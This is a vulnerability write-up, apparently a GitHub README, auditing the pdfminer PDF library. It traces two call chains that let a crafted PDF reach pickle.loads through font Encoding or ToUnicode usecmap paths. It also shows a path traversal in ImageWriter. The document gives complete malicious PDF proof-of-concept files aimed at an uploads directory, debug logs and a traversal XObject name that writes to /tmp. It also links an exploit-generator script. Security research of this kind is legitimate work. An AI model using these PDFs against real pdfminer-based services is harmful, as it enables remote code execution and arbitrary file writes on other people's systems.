






Pdfminer code auditing and script development
script path: https://github.com/L1nq0/Pdfminer-CMap-Generator

# CMapDB Deserialization

## Type0 Encoding

`cmapdb.py#CMapDB._load_data` calls pickle.loads

`_load_data` removes null bytes from the incoming `name` parameter and inserts it into `%s.pickle.gz`, then concatenates the paths in `cmap_paths` with the filename. `CMAP_PATH` is the absolute path to cmap, such as `/../site-packages/pdfminer/cmap`. If the concatenated file actually exists, it uses the gzip module to read and passes the content to `pickle.loads()` for deserialization.
Requirements: the file must actually exist, the filename is hardcoded with `.pickle.gz` suffix and must be a valid gzip file body for deserialization to occur

```
class CMapDB:
    _cmap_cache: Dict[str, PyCMap] = {}
    _umap_cache: Dict[str, List[PyUnicodeMap]] = {}

    class CMapNotFound(CMapError):
        pass

    @classmethod
    def _load_data(cls, name: str) -> Any:
        name = name.replace("\0", "")
        filename = "%s.pickle.gz" % name
        log.debug("loading: %r", name)
        cmap_paths = (
            os.environ.get("CMAP_PATH", "/usr/share/pdfminer/"),
            os.path.join(os.path.dirname(__file__), "cmap"),
        )
        for directory in cmap_paths:
            path = os.path.join(directory, filename)
            if os.path.exists(path):
                gzfile = gzip.open(path)
                gzfiles = gzfile.read()
                try:
                    return type(str(name), (), pickle.loads(gzfile.read()))
                finally:
                    gzfile.close()
        raise CMapDB.CMapNotFound(name)
```

### Upstream Call Path Analysis

`CMAP_PATH` and `/usr/share/pdfminer/` are basically uncontrollable, unable to write/upload files to these paths. To reach pickle, `name` must be controllable.
Tracing upstream, the `get_cmap(cls, name: str)` method retrieves `CMap` from cache, and if not in cache, calls `_load_data` to load cmap data

```
class CMapDB
	 _cmap_cache: Dict[str, PyCMap] = {}
    @classmethod
    def get_cmap(cls, name: str) -> CMapBase:
        if name == "Identity-H":
            return IdentityCMap(WMode=0)
        elif name == "Identity-V":
            return IdentityCMap(WMode=1)
        elif name == "OneByteIdentityH":
            return IdentityCMapByte(WMode=0)
        elif name == "OneByteIdentityV":
            return IdentityCMapByte(WMode=1)
        try:
            return cls._cmap_cache[name]
        except KeyError:
            pass
        data = cls._load_data(name)
        cls._cmap_cache[name] = cmap = PyCMap(name, data)
        return cmap
```

Going further upstream, pdffont.py::PDFCIDFont.get_cmap_from_spec() calls get_cmap

```
class PDFCIDFont(PDFFont):
    def get_cmap_from_spec(self, spec: Mapping[str, Any], strict: bool) -> CMapBase:
        """Get cmap from font specification

        For certain PDFs, Encoding Type isn't mentioned as an attribute of
        Encoding but as an attribute of CMapName, where CMapName is an
        attribute of spec['Encoding'].
        The horizontal/vertical modes are mentioned with different name
        such as 'DLIdent-H/V','OneByteIdentityH/V','Identity-H/V'.
        """
        cmap_name = self._get_cmap_name(spec, strict)

        try:
            return CMapDB.get_cmap(cmap_name)
        except CMapDB.CMapNotFound as e:
            if strict:
                raise PDFFontError(e)
            return CMap()
```

The `cmap_name` attribute is controlled by the `_get_cmap_name()` method. Entering this method, `spec` is a dictionary object where keys are `str` type and values are of type Any.
`get_cmap_from_spec` extracts the cmap name from the Encoding key in spec. If Encoding contains a CMapName key, that key's value will be passed as the cmap name to the get_cmap method.

```
class PDFCIDFont(PDFFont):
    def _get_cmap_name(spec: Mapping[str, Any], strict: bool) -> str:
        """Get cmap name from font specification"""
        cmap_name = "unknown"  # default value

        try:
            spec_encoding = spec["Encoding"]
            if hasattr(spec_encoding, "name"):
                cmap_name = literal_name(spec["Encoding"])
            else:
                cmap_name = literal_name(spec_encoding["CMapName"])
        except KeyError:
            if strict:
                raise PDFFontError("Encoding is unspecified")

        if type(cmap_name) is PDFStream:  # type: ignore[comparison-overlap]
            cmap_name_stream: PDFStream = cast(PDFStream, cmap_name)
            if "CMapName" in cmap_name_stream:
                cmap_name = cmap_name_stream.get("CMapName").name
            else:
                if strict:
                    raise PDFFontError("CMapName unspecified for encoding")

        return IDENTITY_ENCODER.get(cmap_name, cmap_name)
```

At this point, parameter passing flows from `spec['Encoding'] -> cmap_name -> name`. If spec is controllable, it can influence the filename that cmap opens.
Continuing upstream, the PDFCIDFont class calls get_cmap_from_spec during initialization. `__init__` initialization defines some objects and attributes, continue tracing spec upstream

In pdfinterp.py::PDFResourceManager.get_font(), related operations are found. subtype is assigned from `spec['Subtype']`. If it is either CIDFontType0 or CIDFontType2, PDFCIDFont is instantiated. The key is in `spec`, but who controls it is still unknown. With this question, continue tracing forward

init_resources() first assigns the resources dictionary. If the value is Font and its internal key-value belongs to PDFObjRef class or subclass, it calls pdftypes.dict_value(x: object) to extract key fields from the 'Font' object one by one into spec, and passes it to get_font(objid, spec)

```
class PDFPageInterpreter:
    def init_resources(self, resources: Dict[object, object]) -> None:
        self.resources = resources
        self.fontmap: Dict[object, PDFFont] = {}
        self.xobjmap = {}
        self.csmap: Dict[str, PDFColorSpace] = PREDEFINED_COLORSPACE.copy()
        if not resources:
            return

        def get_colorspace(spec: object) -> Optional[PDFColorSpace]:
            if isinstance(spec, list):
                name = literal_name(spec[0])
            else:
                name = literal_name(spec)
            if name == "ICCBased" and isinstance(spec, list) and 2 <= len(spec):
                return PDFColorSpace(name, stream_value(spec[1])["N"])
            elif name == "DeviceN" and isinstance(spec, list) and 2 <= len(spec):
                return PDFColorSpace(name, len(list_value(spec[1])))
            else:
                return PREDEFINED_COLORSPACE.get(name)

        for (k, v) in dict_value(resources).items():
            log.debug("Resource: %r: %r", k, v)
            if k == "Font":
                for (fontid, spec) in dict_value(v).items():
                    objid = None
                    if isinstance(spec, PDFObjRef):
                        objid = spec.objid
                    spec = dict_value(spec)
                    self.fontmap[fontid] = self.rsrcmgr.get_font(objid, spec)
            elif k == "ColorSpace":
                for (csid, spec) in dict_value(v).items():
                    colorspace = get_colorspace(resolve1(spec))
                    if colorspace is not None:
                        self.csmap[csid] = colorspace
            elif k == "ProcSet":
                self.rsrcmgr.get_procset(list_value(v))
            elif k == "XObject":
                for (xobjid, xobjstrm) in dict_value(v).items():
                    self.xobjmap[xobjid] = xobjstrm
        return
```

process_page() passes page.resources to render_contents() for execution, then resources is passed to init_resources(). The resources here is the Font object processed by dict_value

```
class PDFPageInterpreter:
    def process_page(self, page: PDFPage) -> None:
        log.debug("Processing page: %r", page)
        (x0, y0, x1, y1) = page.mediabox
        if page.rotate == 90:
            ctm = (0, -1, 1, 0, -y0, x1)
        elif page.rotate == 180:
            ctm = (-1, 0, 0, -1, x1, y1)
        elif page.rotate == 270:
            ctm = (0, 1, -1, 0, y1, -x0)
        else:
            ctm = (1, 0, 0, 1, -x0, -y0)
        self.device.begin_page(page, ctm)
        self.render_contents(page.resources, page.contents, ctm=ctm)
        self.device.end_page(page)
        return

    def render_contents(
        self,
        resources: Dict[object, object],
        streams: Sequence[object],
        ctm: Matrix = MATRIX_IDENTITY,
    ) -> None:
        log.debug(
            "render_contents: resources=%r, streams=%r, ctm=%r", resources, streams, ctm
        )
        self.init_resources(resources)
        self.init_state(ctm)
        self.execute(list_value(streams))
        return
```

Finally tracing to the entry point, two are found in total

- high_level.py::extract_pages()
- high_level.py::extract_text()
  Both methods are used to extract information from PDF files and are themselves the main entry points for Pdfminer to interact externally. The exploitation chain ends here

```
def extract_text(
    pdf_file: FileOrName,
    password: str = "",
    page_numbers: Optional[Container[int]] = None,
    maxpages: int = 0,
    caching: bool = True,
    codec: str = "utf-8",
    laparams: Optional[LAParams] = None,
) -> str:
    """Parse and return the text contained in a PDF file.

    :param pdf_file: Either a file path or a file-like object for the PDF file
        to be worked on.
    :param password: For encrypted PDFs, the password to decrypt.
    :param page_numbers: List of zero-indexed page numbers to extract.
    :param maxpages: The maximum number of pages to parse
    :param caching: If resources should be cached
    :param codec: Text decoding codec
    :param laparams: An LAParams object from pdfminer.layout. If None, uses
        some default settings that often work well.
    :return: a string containing all of the text extracted.
    """
    if laparams is None:
        laparams = LAParams()

    with open_filename(pdf_file, "rb") as fp, StringIO() as output_string:
        fp = cast(BinaryIO, fp)  # we opened in binary mode
        rsrcmgr = PDFResourceManager(caching=caching)
        device = TextConverter(rsrcmgr, output_string, codec=codec, laparams=laparams)
        interpreter = PDFPageInterpreter(rsrcmgr, device)

        for page in PDFPage.get_pages(
            fp,
            page_numbers,
            maxpages=maxpages,
            password=password,
            caching=caching,
        ):
            interpreter.process_page(page)

        return output_string.getvalue()


def extract_pages(
    pdf_file: FileOrName,
    password: str = "",
    page_numbers: Optional[Container[int]] = None,
    maxpages: int = 0,
    caching: bool = True,
    laparams: Optional[LAParams] = None,
) -> Iterator[LTPage]:
    """Extract and yield LTPage objects

    :param pdf_file: Either a file path or a file-like object for the PDF file
        to be worked on.
    :param password: For encrypted PDFs, the password to decrypt.
    :param page_numbers: List of zero-indexed page numbers to extract.
    :param maxpages: The maximum number of pages to parse
    :param caching: If resources should be cached
    :param laparams: An LAParams object from pdfminer.layout. If None, uses
        some default settings that often work well.
    :return: LTPage objects
    """
    if laparams is None:
        laparams = LAParams()

    with open_filename(pdf_file, "rb") as fp:
        fp = cast(BinaryIO, fp)  # we opened in binary mode
        resource_manager = PDFResourceManager(caching=caching)
        device = PDFPageAggregator(resource_manager, laparams=laparams)
        interpreter = PDFPageInterpreter(resource_manager, device)
        for page in PDFPage.get_pages(
            fp,
            page_numbers,
            maxpages=maxpages,
            password=password,
            caching=caching,
        ):
            interpreter.process_page(page)
            layout = device.get_result()
            yield layout
```

Tracing the entire flow, starting from the extract_ dual methods. PDFPage.get_pages() will parse the PDF file through PDFParser and generate a PDFDocument object. This object contains the document's structure and metadata. It then iterates through each page in the document and calls create_pages(doc) to generate specific page objects. The extracted PDF metadata is then passed to downstream methods for processing

```
class PDFPage:
    def get_pages(
        cls,
        fp: BinaryIO,
        pagenos: Optional[Container[int]] = None,
        maxpages: int = 0,
        password: str = "",
        caching: bool = True,
        check_extractable: bool = False,
    ) -> Iterator["PDFPage"]:
        parser = PDFParser(fp)
        doc = PDFDocument(parser, password=password, caching=caching)
        if not doc.is_extractable:
            if check_extractable:
                error_msg = "Text extraction is not allowed: %r" % fp
                raise PDFTextExtractionNotAllowed(error_msg)
            else:
                warning_msg = (
                    "The PDF %r contains a metadata field "
                    "indicating that it should not allow "
                    "text extraction. Ignoring this field "
                    "and proceeding. Use the check_extractable "
                    "if you want to raise an error in this case" % fp
                )
                log.warning(warning_msg)
        for pageno, page in enumerate(cls.create_pages(doc)):
            if pagenos and (pageno not in pagenos):
                continue
            yield page
            if maxpages and maxpages <= pageno + 1:
                break
```

### Exploitation Chain

```
high_level.py::extract_pages()/extract_text()
	pdfinterp.py::PDFPageInterpreter.process_page(page)
		pdfinterp.py::PDFPageInterpreter.render_contents(resources, contents)
			pdfinterp.py::PDFPageInterpreter.init_resources(resources)
				pdfinterp.py::PDFResourceManager.get_font(objid, spec)
					pdffont.py::PDFCIDFont.__init__(rsrcmgr, spec, strict)
						pdffont.py::PDFCIDFont.get_cmap_from_spec(spec, strict)
							cmapdb.py::CMapDB.get_cmap(cmap_name)
								cmapdb.py::CMapDB._load_data(name)
```

Define the PDF Font object key fields well: Type = Type0, Subtype = CIDFontType0 or CIDFontType2, Encoding = absolute path to GZIP file. Additionally, the `/` in the absolute path needs to be replaced with `#2F`, and using extract_pages()/extract_text() to operate on the PDF file, Pdfminer will read the GZIP content and deserialize it
PDF format exploitation example

```
%PDF-1.4
%E2%E3%CF%D3
1 0 obj
<< /Type /Catalog /Pages 2 0 R >>
endobj

2 0 obj
<< /Type /Pages /Count 1 /Kids [3 0 R] >>
endobj

3 0 obj
<< /Type /Page /Parent 2 0 R /MediaBox [0 0 612 792] /Resources << /Font << /F1 5 0 R >> >> /Contents 4 0 R >>
endobj

4 0 obj
<< /Length 22 >>
stream
BT /F1 12 Tf (A) Tj ET
endstream
endobj

5 0 obj
<< /Type /Font /Subtype /Type0 /BaseFont /Identity-H /Encoding /app/uploads/l1 /DescendantFonts [6 0 R] >>
endobj

6 0 obj
<< /Type /Font /Subtype /CIDFontType2 /BaseFont /Dummy /CIDSystemInfo << /Registry (Adobe) /Ordering (Identity) /Supplement 0 >> >>
endobj

xref
0 7
0000000000 65535 f
0000000010 00000 n
0000000077 00000 n
0000000176 00000 n
0000000273 00000 n
0000000325 00000 n
0000000375 00000 n
trailer
<< /Size 7 /Root 1 0 R >>
startxref
410
%%EOF
```

## ToUnicode usecmap

The above is the attack path for Type0 Font Encoding. pickle.loads has a second trigger chain: ToUnicode usecmap.
PDFSimpleFont initialization processes the /ToUnicode field. ToUnicode is a CMap stream for character encoding mapping in PDFs. pdffont.py::PDFSimpleFont.init() reads the ToUnicode stream content at Line 970 and passes it to CMapParser for parsing

```
class PDFSimpleFont(PDFFont):
    def __init__(
        self,
        descriptor: PDFObjRef,
        widths: object,
        spec: MutableMapping[str, Any],
    ) -> None:
        # ...
        if "ToUnicode" in spec:
            strm = stream_value(spec["ToUnicode"])
            self.unicode_map = FileUnicodeMap()
            CMapParser(self.unicode_map, BytesIO(strm.get_data())).run()  # Line 970
```

CMapParser inherits from PSStackParser and is used to parse PostScript format CMap data. When keywords are encountered during parsing, it calls do_keyword() to handle them

```
class CMapParser(PSStackParser[PSKeyword]):
    def __init__(self, cmap: CMapBase, fp: BinaryIO) -> None:
        PSStackParser.__init__(self, fp)
        self.cmap = cmap
        # ...

    def run(self) -> None:
        try:
            self.nextobject()
        except PSEOF:
            pass

    def do_keyword(self, pos: int, token: PSKeyword) -> None:
        # ...
        if token is self.KEYWORD_USECMAP:
            try:
                ((_, cmapname),) = self.pop(1)  # Pop CMap name from stack
                self.cmap.use_cmap(CMapDB.get_cmap(literal_name(cmapname)))  # Line 349: trigger point
            except PSSyntaxError:
                pass
            except CMapDB.CMapNotFound:
                pass
```

When the ToUnicode stream contains the `usecmap` keyword, CMapParser pops the CMap name from the operand stack and calls CMapDB.get_cmap(). The subsequent flow is identical to the Type0 Encoding path, ultimately triggering pickle.loads.
Debug logs show the entire parsing process

```
DEBUG:pdfminer.pdfinterp:get_font: create: objid=4, spec={
    'Type': /'Font',
    'Subtype': /'Type1',
    'BaseFont': /'Helvetica',
    'ToUnicode': <PDFObjRef:6>
}
```



```
DEBUG:pdfminer.psparser:nexttoken: (0, /'CIDInit')
DEBUG:pdfminer.psparser:nexttoken: (9, /'ProcSet')
DEBUG:pdfminer.psparser:nexttoken: (18, /b'findresource')
DEBUG:pdfminer.psparser:do_keyword: pos=18, token=/b'findresource'
DEBUG:pdfminer.psparser:nexttoken: (31, /b'begin')
DEBUG:pdfminer.psparser:do_keyword: pos=31, token=/b'begin'
DEBUG:pdfminer.psparser:nexttoken: (37, /'/proc/self/cwd/uploads/poc_exploit')
DEBUG:pdfminer.psparser:nexttoken: (83, /b'usecmap')
DEBUG:pdfminer.psparser:do_keyword: pos=83, token=/b'usecmap',
    stack=[..., (37, /'/proc/self/cwd/uploads/poc_exploit')]
DEBUG:pdfminer.cmapdb:loading: '/proc/self/cwd/uploads/poc_exploit'
```

PSStackParser reads tokens from the ToUnicode stream one by one. When encountering the `usecmap` keyword, the stack top is the previously pushed CMap path `/proc/self/cwd/uploads/poc_exploit`, which is passed to CMapDB.get_cmap(), triggering pickle.loads.

### Exploitation Chain

```
high_level.py::extract_pages()/extract_text()
	pdfinterp.py::PDFPageInterpreter.process_page(page)
		pdfinterp.py::PDFPageInterpreter.render_contents(resources, contents)
			pdfinterp.py::PDFPageInterpreter.init_resources(resources)
				pdfinterp.py::PDFResourceManager.get_font(objid, spec)
					pdffont.py::PDFType1Font.__init__(rsrcmgr, spec, strict)
						pdffont.py::PDFSimpleFont.__init__(descriptor, widths, spec)
							cmapdb.py::CMapParser(unicode_map, stream).run()
								cmapdb.py::CMapParser.nextobject()
									cmapdb.py::CMapParser.do_keyword(KEYWORD_USECMAP)
										cmapdb.py::CMapDB.get_cmap(cmap_name)
											cmapdb.py::CMapDB._load_data(name)
```

PDF format exploitation example

```
%PDF-1.4
%E2%E3%CF%D3
1 0 obj
<< /Type /Catalog /Pages 2 0 R >>
endobj

2 0 obj
<< /Type /Pages /Count 1 /Kids [3 0 R] >>
endobj

3 0 obj
<< /Type /Page /Parent 2 0 R /MediaBox [0 0 612 792] /Resources << /Font << /F1 4 0 R >> >> /Contents 5 0 R >>
endobj

4 0 obj
<< /Type /Font /Subtype /Type1 /BaseFont /Helvetica /ToUnicode 6 0 R >>
endobj

5 0 obj
<< /Length 42 >>
stream
BT
/F1 12 Tf
50 700 Td
(Exploit PDF) Tj
ET
endstream
endobj

6 0 obj
<< /Length 95 >>
stream
/CIDInit /ProcSet findresource begin
/#2Fproc#2Fself#2Fcwd#2Fuploads#2Fpoc_exploit usecmap
end
endstream
endobj

xref
0 7
0000000000 65535 f
0000000015 00000 n
0000000064 00000 n
0000000121 00000 n
0000000259 00000 n
0000000355 00000 n
0000000447 00000 n
trailer
<< /Size 7 /Root 1 0 R >>
startxref
592
%%EOF
```

The two chains will not trigger simultaneously. If chain one is taken, after the first pickle.loads execution, the returned object lacks the CODE2CID attribute, causing an AttributeError. The exception propagates upward, causing PDFCIDFont.init() to fail, preventing execution of the ToUnicode processing at Line 1113.

# Path Traversal in ImageWriter

This logical flaw was discovered while examining Pdfminer's image extraction and writing functionality. When using Pdfminer to extract images from PDFs, the typical call is:

```
for page in extract_pages(pdf_file):
	for element in page:
		if isinstance(element, LTFigure):
			for item in element:
				if isinstance(item, LTImage):
					result = writer.export_image(item)
```

Pdfminer saves images from the PDF to a specified directory. But the question arose: how is the filename processed when saving?
Through source code reading, the key logic is found in `ImageWriter.create_unique_image_name`:

```
def _create_unique_image_name(self, image: LTImage, ext: str) -> Tuple[str, str]:
	name = image.name + ext
	path = os.path.join(self.outdir, name)
	img_index = 0
	while os.path.exists(path):
		name = "%s.%d%s" % (image.name, img_index, ext)
		path = os.path.join(self.outdir, name)
		img_index += 1
	return name, path
```

`_create_unique_image_name` directly uses the XObject name as part of the output filename when processing image resources in PDF files, concatenating it with the output path outdir to form a new path, without validation. Similar to the above analysis, if the PDF is controllable, then image.name is controllable.
Pdfminer parses and creates LTImage objects, with the name attribute assigned as the specified path. `export_image` is the operation entry point

```
class ImageWriter:
    def export_image(self, image: LTImage) -> str:
        """Save an LTImage to disk"""
        (width, height) = image.srcsize

        filters = image.stream.get_filters()

        if filters[-1][0] in LITERALS_DCT_DECODE:
            name = self._save_jpeg(image)

        elif filters[-1][0] in LITERALS_JPX_DECODE:
            name = self._save_jpeg2000(image)

        elif self._is_jbig2_iamge(image):
            name = self._save_jbig2(image)

        elif image.bits == 1:
            name = self._save_bmp(image, width, height, (width + 7) // 8, image.bits)

        elif image.bits == 8 and (
            LITERAL_DEVICE_RGB in image.colorspace
            or LITERAL_INLINE_DEVICE_RGB in image.colorspace
        ):
            name = self._save_bmp(image, width, height, width * 3, image.bits * 3)

        elif image.bits == 8 and (
            LITERAL_DEVICE_GRAY in image.colorspace
            or LITERAL_INLINE_DEVICE_GRAY in image.colorspace
        ):
            name = self._save_bmp(image, width, height, width, image.bits)

        elif len(filters) == 1 and filters[0][0] in LITERALS_FLATE_DECODE:
            name = self._save_bytes(image)

        else:
            name = self._save_raw(image)

        return name
```

After obtaining the filename and path, Pdfminer directly uses the path to write the file with fp.write. If path is /x/x/uploads/../../../tmp/l1.jpg, it can perform cross-directory file writing

```
def _save_jpeg(self, image: LTImage) -> str:
	"""Save a JPEG encoded image"""
	data = image.stream.get_data()

	name, path = self._create_unique_image_name(image, ".jpg")
	with open(path, "wb") as fp:
		if LITERAL_DEVICE_CMYK in image.colorspace:
			try:
				from PIL import Image, ImageChops  # type: ignore[import]
			except ImportError:
				raise ImportError(PIL_ERROR_MESSAGE)

			ifp = BytesIO(data)
			i = Image.open(ifp)
			i = ImageChops.invert(i)
			i = i.convert("RGB")
			i.save(fp, "JPEG")
		else:
			fp.write(data)

	return name
```

If the XObject name in the PDF can be controlled, can we achieve controlled writing? Let me construct a malicious PDF to fulfill this idea

```
3 0 obj
<<
  /Type /Page
  /Resources <<
    /XObject <<
      /#2E#2E#2F#2E#2E#2F#2E#2E#2F#2E#2E#2Ftmp#2Fpwned 4 0 R
    >>
  >>
>>
...
```

path is successfully controlled to the specified content

and the write succeeds


```
name, path = self._create_unique_image_name(image, ".jpg")
  =>
	def _create_unique_image_name(self, image: LTImage, ext: str) -> Tuple[str, str]:
        name = image.name + ext
        path = os.path.join(self.outdir, name)
        img_index = 0
        while os.path.exists(path):
            name = "%s.%d%s" % (image.name, img_index, ext)
            path = os.path.join(self.outdir, name)
            img_index += 1
        return name, path
    ...
    @staticmethod
    def _is_jbig2_iamge(image: LTImage) -> bool:
        filters = image.stream.get_filters()
        for filter_name, params in filters:
            if filter_name in LITERALS_JBIG2_DECODE:
                return True
        return False
```

The file extension is forcibly appended and cannot be controlled. Python environments cannot directly execute code, so the harm is limited.
